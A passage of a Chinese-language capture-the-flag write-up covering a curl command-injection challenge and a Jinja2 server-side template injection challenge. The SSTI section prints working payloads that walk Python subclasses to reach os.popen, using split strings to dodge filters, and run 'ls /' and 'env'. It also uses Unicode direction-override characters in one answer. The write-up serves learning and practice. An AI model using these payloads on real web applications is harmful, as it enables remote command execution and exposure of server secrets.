> %E2%80%AE%E2%81%A6scuctf%E2%80%AE…666=scuctf

 

## [Web7] curl_curl_curl

由题目易得存在curl的漏洞

测试一下



发现ls命令被执行了

然后就是简单的翻找目录然后双写绕过cat flag

 

## [Web]ezSSTI

由题目易得存在sstl标准注入的漏洞

测试一下



发现命令被执行

获取所有类

```
?name={{%27%27.__class__.__mro__[2].__subclasses__()}}
```

 

寻找<class ‘warnings.catch_warnings’>为第59位

构造执行命令的payload

```
?name={{[].__class__.__base__.__subclasses__()[59].__init__.__globals__[%27__builtins__%27][%27__imp%27+%27ort__%27](%27os%27).__dict__[%27pop%27+%27en%27](%27ls%20/%27).read()}}
```


 

被执行但没发现flag文件

在提示下查看环境变量

```
?name={{[].__class__.__base__.__subclasses__()[59].__init__.__globals__[%27__builtins__%27][%27__imp%27+%27ort__%27](%27os%27).__dict__[%27pop%27+%27en%27](%27env%27).read()}}
```


 


 

